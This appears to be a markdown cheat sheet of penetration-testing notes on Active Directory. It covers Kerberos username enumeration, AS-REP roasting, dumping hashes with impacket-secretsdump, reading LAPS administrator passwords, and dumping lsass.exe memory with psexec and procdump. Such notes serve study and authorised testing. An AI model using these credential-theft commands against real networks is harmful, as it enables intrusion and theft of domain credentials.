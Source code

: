 # Active Directory
The domain controller

```whoami /priv``` can be used to check user privileges.

```net user``` can be used to check group memberships.

## Initial Foothold
### Kerberos
Kerberos is a key authentication service within Active Directory. It acts as a Key Distribution Center (KDC) and runs off of "tickets". A Ticket Granting Ticket (TGT) is a user authentication token issued by the KDC that is used to request access tokens from the Ticket Granting Service (TGS) for specific resources/systems joined to the domain.

Kerbrute can be used to brute force discovery of usernames with `userenum`. It is **not** recommended to brute force account credentials due to account lockout policies.

#### ASReproasting
ASReproasting occurs when a user account has the privilege "Does not require Pre-Authentication" set. This means the account **does not** need to provide valid identification before requesting a Kerberos Ticket on the specified account.

## Privilege Escalation
### Dumping Secrets
We can use `impacket-secretsdump` to retrieve all the password hashes that this user has to offer.

If the current account has the unique permission that allows all Active Directory changes to be synced with the account, then we will be able to grab all password hashes in the Active Directory.

### LAPS
If the current user is part of the ```LAPS_Readers``` group we can use it to read and extract the Local Administrator password with
```powershell
Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd
```

### LSAS.exe (Local Security Authority Subsystem Service)
**Note:** You must have enough permissions (system rights) to dump LSAS.exe and Credential Guard **cannot** be configured and running.

Check if Credential Guard is configured and running
```powershell
$DevGuard = Get-CimInstance –ClassName Win32_DeviceGuard –Namespace root\Microsoft\Windows\DeviceGuard
if ($DevGuard.SecurityServicesConfigured -contains 1) {"Credential Guard configured"}
if ($DevGuard.SecurityServicesRunning -contains 1) {"Credential Guard running"}
```

Create command prompt with system rights (Windows Defender will prevent process dump if you do not have system rights) and dump.
```powershell
psexec -i -s cmd
procdump -ma lsass.exe lsass.dmp
```
